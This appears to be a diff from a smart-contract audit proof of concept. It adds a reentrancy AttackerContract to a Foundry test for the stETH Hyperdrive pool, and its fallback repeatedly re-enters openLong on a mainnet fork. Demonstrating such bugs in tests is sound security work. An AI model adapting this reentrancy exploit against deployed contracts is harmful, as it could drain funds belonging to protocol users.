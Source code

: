 ```diff
+            _instance
+        );
+    }
+
+    function attack() public returns (uint) {
+        console.log("\n# Starting the Attack #\n");
+        instance.openLong{ value: 1.1 ether }(1 ether, 0, address(this), true);
+        console.log("\n# Finished the Attack #\n");
+    }
+
+    function normalLoop() public returns (uint) {
+        console.log("\n# Opening Several Long Positions #\n");
+        shouldAttack = false;
+        instance.openLong{ value: 1.1 ether }(1 ether, 0, address(this), true);
+        for (uint i = 0; i < 5; ++i) {
+            console.log("Loop index: %s", i);
+            instance.openLong(1 ether, 0, address(this), false);
+            instance.openLong{ value: 1.1 ether }(
+                1 ether,
+                0,
+                address(this),
+                true
+            );
+        }
+        shouldAttack = true;
+        console.log("\n# Finished Opening Several Long Positions #\n");
+    }
+
+    fallback(bytes calldata _data) external payable returns (bytes memory) {
+        if (reentrancyCounter < 5 && shouldAttack) {
+            console.log("\n# Inside Attacker's Fallback #\n");
+            console.log("Attacking.reentrancyCounter: %s", reentrancyCounter);
+            ++reentrancyCounter;
+            instance.openLong(1 ether, 0, address(this), false);
+            instance.openLong{ value: 1.1 ether }(
+                1 ether,
+                0,
+                address(this),
+                true
+            );
+        }
+    }
+}
 
 contract StethHyperdriveTest is HyperdriveTest {
     using FixedPointMath for uint256;
@@ -33,6 +87,7 @@ contract StethHyperdriveTest is HyperdriveTest {
 
     address internal STETH_WHALE = 0x1982b2F5814301d4e9a8b0201555376e62F82428;
     address internal ETH_WHALE = 0x00000000219ab540356cBB839Cbe05303d7705Fa;
+    address payable internal ATTACKER;
 
     function setUp() public override __mainnet_fork(17_376_154) {
         super.setUp();
@@ -88,12 +143,34 @@ contract StethHyperdriveTest is HyperdriveTest {
             1e5
         );
 
+        // Deploy Attacker
+        ATTACKER = payable(new AttackerContract(address(hyperdrive)));
+
         // Fund the test accounts with stETH and ETH.
-        address[] memory accounts = new address[](3);
```